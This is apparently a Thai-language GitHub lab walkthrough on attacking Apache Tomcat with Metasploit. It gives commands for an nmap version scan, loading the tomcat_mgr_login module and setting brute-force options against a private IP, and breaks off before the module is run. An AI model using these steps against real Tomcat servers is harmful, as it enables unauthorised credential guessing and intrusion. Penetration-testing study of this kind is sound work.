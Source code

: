 # Attacking-Apache-Tomcat-with-Metasploit

### Metasploit Framework 

> ซึ่งเป็นเครื่องมือที่ใช้สำหรับการทดสอบเจาะระบบ (penetration testing) และการประเมินความปลอดภัยของระบบเครือข่ายและแอปพลิเคชัน

```
msfconsole
```

![msfconsole](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/84f6410d-5ee7-47e9-a7ec-54f8332e15a7)

### Nmap Service Version Detection

> Nmap มี Option ที่ใช้ตรวจสอบและคาดเดา service และเวอร์ชั่นของ service นั้นก็คือ -sV ตามด้วย IP หรือ Host ที่เราต้องการ

```
nmap -sV 192.168.19.175
```

![nmap -sV](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/6f8c730d-a227-44d5-abbf-433092e433af)

### search

> คำสั่ง search ใน Metasploit Framework ช่วยค้นหาโมดูลที่เกี่ยวข้องกับคำสำคัญที่คุณป้อนไป

```
search tomcat
```

![search](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/ecce85cc-adb6-4131-a129-778651be0599)

### use

>use ใน Metasploit Framework ช่วยให้ผู้ใช้สามารถเลือกและใช้โมดูลที่ต้องการในการทดสอบเจาะระบบได้

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

![use](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/32920552-4e06-4e91-b3e0-95fccecb9e99)

### show options

>คำสั่ง show options เมื่อใช้ Metasploit Framework ใช้เพื่อแสดงตัวเลือกและพารามิเตอร์ที่สามารถตั้งค่าสำหรับโมดูลที่เลือก ช่วยให้รู้ว่าต้องกำหนดค่าอะไรบ้างก่อนที่จะรันโมดูลนั้น

```
show options
```

![show op1](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f10b8150-1873-449a-937e-97a1fe381181)

### set

>คำสั่ง set เมื่อใช้ Metasploit Framework ใช้เพื่อกำหนดค่าพารามิเตอร์สำหรับโมดูลที่เลือก

> [!NOTE]
> - `BRUTEFORCE_SPEED` ตั้งความเร็วในการ brute force (1-5, ค่า 5 เร็วสุด)
> - `RHOSTS` ระบุเป้าหมายหรือกลุ่มเป้าหมาย (เช่น IP หรือช่วง IP)
> - `STOP_ON_SUCCESS` หยุดการโจมตีเมื่อประสบความสำเร็จ (true/false)
> - `RPORT` ระบุพอร์ตของเป้าหมาย (เช่น 80 สำหรับ HTTP)

```
set BRUTEFORCE_SPEED 8
```

```
set BRUTEFORCE_SPEED 5
```

```
set RHOSTS 192.168.19.175
```

```
set STOP_ON_SUCCESS true
```

```
set RPORT 8180
```
![set](https://github.com/Atiwitch15101/Tomcat/assets/159407312/0c6d6159-8413-4831-9be7-5ee49929a4a4)



